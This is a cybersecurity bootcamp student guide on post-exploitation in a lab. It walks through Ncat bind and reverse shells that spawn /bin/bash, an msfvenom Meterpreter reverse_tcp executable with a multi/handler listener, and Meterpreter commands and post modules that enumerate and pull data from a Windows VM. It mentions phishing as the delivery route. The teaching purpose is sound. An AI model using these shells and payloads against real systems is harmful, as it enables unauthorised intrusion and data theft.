





## 17.2 Student Guide: Post Exploitation with Meterpreter 

### Overview

In today's class we will look at the post-exploitation phase of pen testing. We will establish backdoors by creating bind and reverse shells using Ncat. Then, we will continue working in our Metasploit framework to craft custom payloads and establish Meterpreter sessions. 

### Class Objectives

By the end of class, you will be able to:

- Establish bind and reverse shells using Ncat.
- Set Meterpreter payloads on a target.
- Use Meterpreter shells to exfiltrate data from the target machine.

____


### 01. Welcome and Overview of Command and Control

For the past two units, we have been exploring the offensive security practice known as pen testing. 

Review the five pen testing stages: 

1. Planning and Reconnaissance
2. Scanning
3. Exploitation
4. Post Exploitation
5. Reporting

- We've learned many manual tools and established a fundamental understanding of how reconnaissance, scanning, and exploitations work. 

- We've also introduced more automated tools with the Metasploit framework, and used Metasploit scripts to target multiple VMs. 

Today we will continue to exploit vulnerabilities and begin the process of **Post Exploitation**. In this phase, backdoors are created and valuable data is extracted.  

- After successful exploitation, in which a session is established, Metasploit acts as a **command and control (C2)** server, meaning it is able to pass commands to exploited victim computers.

- C2 is a general term for a non-standardized framework that controls sessions on infected hosts.

- C2 is a vital technique for the post-exploitation phase of pen testing, when attackers will try to perform tasks such as data exfiltration (moving data from the victim computer to the host).

While there are a variety of C2 frameworks, in today’s class we will focus on the Meterpreter module of the Metasploit framework.


### 02. Payloads and Shells 

A payload is the shell code that runs when an exploit successfully compromises a system.

- For example, in previous Shellshock demonstrations, we saw payloads such as `payload/firefox/gather/cookies`.

In that example, the payload was automatically determined for us. However, there may be times when you require a different or customized payload. For example:

- Payloads will need to correspond to a specific OS and architecture. 

   - A 64-bit payload is very different from a 32-bit payload.

- Some exploits can only handle a certain size payload. If a payload is too big, it will fail.

  - To address this size issue, we can use either **staged** or **stageless** payloads.

    - Staged payloads come in multiple parts in order to minimize their overall initial payload size. Upon exploitation, the payload calls the rest of the payload down from the "staged" location.

    - Stageless payloads are complete payloads, and are significantly larger than staged payloads.

- Depending on what we want to do once we exploit our target machine, certain payloads allow for more functionality than others.

  - For example,  Meterpreter payloads, which are used by Metasploit exploits, provide a robust offering of tools and commands that we will explore later today. 

#### Shells

If the payload is successful, it will establish a shell. This is the connection between the target machine and attacking machine. 

- Two notable types of shells are: 

   - **Bind shells** use a payload that opens up a port on a victim host and listen on that port for an incoming connection from the attacker host. This allows the attacker to connect to the victim. 

   - **Reverse shells** use a payload that automatically reaches out to the attacker host to establish a session.

- In other words, in a bind shell the attacking computer connects to the victim computer. In a reverse shell, the victim computer connects to the attacking computer.

- When shells are used maliciously like this, they are also referred to as **backdoors**. 

#### Bind and Reverse Shells Demonstration Setup

In the upcoming demonstration, we will manually establish bind and reverse shells using **Ncat**. 

- Ncat is a command-line tool that allows us to read, write, redirect, and encrypt data across networks. It is a common security tool and is considered a versatile and vital tool for security professionals.

In this scenario, we have already infiltrated the machine. Therefore, we are in the post-exploitation stage of the penetration test and  will use Ncat to establish a backdoor. 

We will use the following lab environment: 

- Kali Linux machine will be our attack host. 

- We will establish backdoors on our Metasploitable VM, a vulnerable web server.

#### Bind Shell Demonstration

A bind shell is configured on the target host. The host binds to a specific port that's listening for incoming connections from the attacker.

1. Begin by starting a listener on the victim's Metasploitable machine. This step assumes that we have already exploited the target and have access to it.

   - On Metasploitable, run the following command to create a listener on port `4444`.   

      -  `nc -lnvp 4444 -e /bin/bash`

         - `-l`: Tells Ncat to listen for incoming connection.
         - `-n`: Indicates that we are listening for numeric IP addresses.
         - `-v`: Means verbose, which will print more information about the connection.
         - `-p <port number>`: Specifies which port to listen on. 
         - `-e`: Executes a bash shell, specifically, `/bin/bash`.

   - Once the Kali machine connects, you will see a `connect to...(UNKNOWN)...` message.

        

2. Next, we'll establish a connection to the listener on the Metasploitable VM.

   - On the Kali machine, run the command to establish a connection to port `4444` using the local IP address of Kali Linux. 

     - `nc 192.168.0.10 4444`


   - This command should successfully connect us on the Kali Machine, giving us remote control of the Metasploitable machine. 

        - Next, demonstrate code execution by typing `ls`, `whoami`, and `pwd` to illustrate that the shell is active on the target Metasploitable machine.

      

We have successfully established a connection between the attacker and target machines!


#### Reverse Shell Demonstration

A reverse shell is initiated from the target host back to the attacker, who will have a listener. 

We would use a reverse shell  if we sent the victim a malicious script that tricked them into opening the payload for us, or after or during our initial breach into their system. We could also set up a reverse shell to run as a cron job. 

1. Start a listener on the attacker's Kali machine.

   - On Kali Linux, run the following command:

      - `nc -lvnp 4444`


2. On the Metasploitable VM, run the following command:

   - `nc 192.168.0.8 4444 -e /bin/bash`

     -  `nc`: Starts the listener on port `4444`.
     - `-e /bin/bash`: Provides a shell to the connecting machine, in this case the attacking Kali machine.

   

3. Back on the Kali machine, you should see a successful connection.

    - Demonstrate code execution by running the following on the Kali machine:

       - `whoami`
       - `ifconfig`

    - This demonstrates that the shell on the target is active and responding.

       

    - This  means that you have successfully established a connection between the attacker and target machines.


### 03. Activity: Bind and Reverse Shells and Ncat  

- [Activity File: Bind and Reverse Shell and Ncat](./Activities/03_Bind_and_Reverse/Unsolved/README.md)


### 04. Activity Review: Bind and Reverse Shells and Ncat  

- [Solution File: Bind and Reverse Shell and Ncat](./Activities/03_Bind_and_Reverse/Solved/README.md)

### 05.  First Steps with Meterpreter

Metasploit is a convenient tool suite that automates entire steps of engagements and enables complex and advanced techniques. 

- For example, Metasploit can exploit a target _and_ open a session onto it in a single step.

- In fact, when we exploited a vulnerability with Metasploit and MSFconsole in the previous class, we also opened a Meterpreter session. However, we did not interact with it. 

- Additionally, once this session is open, it can carry out advanced features that are either unavailable or burdensome to carry out in normal shells. 

We set up shells in the Metasploit framework with Meterpreter.

- Meterpreter, short for the Meta-Interpreter, is a proprietary Metasploit payload that sets up reverse shells. 

- A Meterpreter shell provides access to Metasploit modules and other actions that would otherwise not be available when using the command shell alone.


#### Meterpreter Features

Using Meterpreter is similar to using a normal shell, but with its own built-in commands and pen testing features. Think of it like an extendable command shell that provides the same interface across platforms.

With Metasploit, we can use Meterpreter to: 

- Upload and download files to and from a target. 
- Set up port forwarding through the target. 
- Switch between Meterpreter shells. 
- Run Metasploit modules on remote hosts. 


In addition to these capabilities, Meterpreter is difficult to detect and leaves minimal traces on victim machines or the network. 

  - It runs entirely in memory, meaning it does not create files on the target.

  - It does not start any new processes on the victim. Instead, it "injects" itself into a program that's already running. Therefore, users see that Meterpreter has started by looking at running processes. 
      - This is not the case with an SSH session, which launches a new shell process.

  - Meterpreter encrypts all communication to and from the victim machine.

Opening a Meterpreter session on a target host consists of four main steps:

1. Exploiting the target.

2. Uploading a Meterpreter payload on the target.

3. Starting a TCP listener.

4. Executing the Meterpreter payload.

These four steps are required to set up and run an exploit.

#### Meterpreter Basics

The easiest way to open a Meterpreter shell is to select an exploit and set a Meterpreter payload. 
  - A common payload is `windows/meterpreter/reverse_tcp`.

  - **Note:** You can have multiple Meterpreter sessions open on multiple machines.

The following commands are needed to connect to a Meterpreter session:

- `sessions`: Lists all open Meterpreter sessions.

- `sessions -i <Session ID>`: Connects to a designated session.

- `sessions -i 1`: Brings our session to the foreground, meaning any command we run on our host machine will be run on the Meterpreter shell on the target. 

Once we've connected to a Meterpreter session, we can run many other commands to get information on the target:

  - `?`: Prints Meterpreter's help page, which lists all possible commands.

  - `getuid`: Prints user ID.

  - `getwd`: Prints current working directory.

  - `ifconfig`: Prints the victim's network information.

  - `sysinfo`: Gathers system information (OS, architecture, kernel version). 

  - `upload`: Uploads a file to the target.

  - `download`: Downloads a file from the target.

  - `search`: Searches for resources, similar to the `find` command in Linux.

  - `run win_privs`: Provides more detailed Windows privilege information.

  - `run win_enum`: Runs a comprehensive suite of Windows enumerations and stores the results on the attacking machine.

There are many more Meterpreter commands, but the above commands will help them complete the next activity.


### 06. Activity: Meterpreter Basics

- [Activity File: Meterpreter Basics](./Activities/06_Meterpreter_Basics/Unsolved/README.md)


### 07. Activity Review: Meterpreter Basics 

- [Solution Guide: Meterpreter Basics](./Activities/06_Meterpreter_Basics/Solved/README.md)


### 08. Meterpreter Exploitation Demo 

In this section, we will simultaneously exploit vulnerabilities and create custom payloads that will establish Meterpreter sessions.

* Typically, attackers deliver payloads via phishing emails or other social engineering tactics. When an unsuspecting user clicks a link, a malicious file is downloaded onto their machine.

* For the following demonstration, we will switch over to the Windows 10 machine after we create the custom payload on our Kali machine. 

* We will assume that the executable was downloaded onto the Windows machine, which we should see in the Downloads folder.

In the following demonstration, we will complete the following steps: 

- Use our Kali machine to create a custom payload that we will use to exploit a vulnerable Windows host (DVW10).

- Create a Meterpreter shell on our Kali machine.

- Use the shell to remotely run commands once the payload is executed. 

  * Specifically, we will use commands to search for all JPG pictures in the vulnerable Windows host.

  * We will also gather system information, application information, and currently logged-on users.

Do not worry about the syntax of the specific payload or the tool that we used to create this payload, `msfvenom`. We will cover custom payloads in the next class.


#### Meterpreter Demonstration

1. First, we'll make a malicious custom payload in Kali Linux. 

  Run the following command. We will be covering the syntax of custom payloads in the next class: 

   - `msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.8 lport=4444 -f exe > hack.exe`

      - This command will create a malicious `hack.exe` file. 


  After the command is run, run `ls` to confirm that the malicious `hack.exe` file has been successfully created.

   


2. Launch the DVW10 VM and confirm that the malware file is on the machine. 

   - Navigate to your Downloads folder and verify that `hack.exe` is inside. 

   - A major challenge is actually getting that malicious EXE file onto a victim's target machine. Typically, this is done via a phishing email or other social engineering tactic.

      For this demo, we will assume that this step has already taken place.

    - Don't click the file yet. 

3. Now we're going to use the Metasploit console on the Kali Linux machine to set up a listener. This listener will establish a connection between the two machines once the Windows user clicks the malicious payload.

    - Launch the Metasploit framework: 

      - Run `msfconsole`

    - Select an exploit module:  

      - Run `use exploit/multi/handler` 

         - This module is a TCP handler popular among security practitioners.

       - The exploit module executes a sequence of commands to target a specific vulnerability.

   - Next, indicate that we'll be using the following Windows Meterpreter payload: 
    
     - Run `set payload windows/meterpreter/reverse_tcp` 

     - This payload will open the Meterpreter console (`/meterpreter`) and communicate with the remote machine (`/reverse_tcp`).
   
     

  - Display the payload's options settings: 

      - Run `show options`

  - We need to adjust the following two options: 

     - `set LHOST 192.168.0.8` (insert our local host IP address) 

     - `set LPORT 4444`

       - We can technically use any open port, but for this example we will be using port `4444` since it was established in the payload in Step 1. 

   

  - Verify our settings have taken place:
      - Run `show options` again. 

      

  - Run the payload:

     - Run `exploit`.

     - Do not close your terminal.

5. Return to the DVW10 VM and click on the EXE file that the user already downloaded.

   - Remember that once we click this link, the Meterpreter session will be established.

6. Return to the Kali VM. Our Kali machine should now say `meterpreter` instead of `ms5`, indicating that our meterpreter session was established:

    ```
    meterpreter > getuid
    ```

Now let's run some commands to demonstrate the power of the Meterpreter shell. 

#### Meterpreter Commands and Sub-Modules

Meterpreter comes with a command called `search`.

  - Run the following command:

    - `search -h`

We can use the search function and its arguments to explore this machine further. For instance, we want to locate all the JPG images on the Windows server, so we will run:

   - `search -f *.jpg`

      - `-f`: Specifies file type, in this case, all `.jpg` files.


   - This will take a moment as the search looks through the Windows 10 machine.

     

   - The output should indicate that the search found 217 results.

`sysinfo` returns information about the Windows system. 

   -  Run `sysinfo`

   

The Meterpreter system also comes with its own sub-modules for further exploitation.

- We'll look at the `post` module for tools useful during the post-exploitation phase.

We can run `post` then press Tab twice on the keyboard for a list of the different post modules. 

There are several hundred, each with their own list of modules. We won't discuss them all, but we'll cover some of the more popular ones.

Let's take a look at the `post/windows/gather/` module.

- Run `run post/windows/gather/`

  - There are an additional 118 applications in this module that we can use use for post exploitation of the Windows machine.

Today, we'll use the `enum_applications` module to enumerate applications installed on the Windows machine and save the results to a text document on the attacker machine. 

- Run `run post/windows/gather/enum_applications`

  

- The output displays the applications that are installed on the Windows machine.

Another useful application is `enum_logged_on_users`, used to enumerate all currently logged-on users for the Windows machine.

- Run `run post/windows/gather/enum_logged_on_users`

   - In the **Current Logged Users** section is the `IEUser` user.

    

Run the `shell` command to create a Meterpreter system shell on the compromised remote host.

   - Run `shell`

   - A **system shell** contains the features that come standard with basic shell commands. 

      - Logged-on users could be alerted to the presence of the shell and its child processes running on the target.

      - Rather than downloading documents, we may only be able to copy and paste their contents. 

      


### 09. Activity: Meterpreter Shells 


- [Activity File: Meterpreter Shells](./Activities/10_Meterpreter_Shells/Unsolved/README.md)


### 10. Activity Review: Meterpreter Shells  

- [Solution Guide:  Meterpreter Shells ](./Activities/10_Meterpreter_Shells/Solved/README.md)

### 10. Wrap-Up

Review the five pen testing stages: 

1. Planning and Reconnaissance
2. Scanning
3. Exploitation
4. Post Exploitation
5. Reporting

In the next class, we will continue with Post Exploitation by creating custom payloads using msfvenom. 

____

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
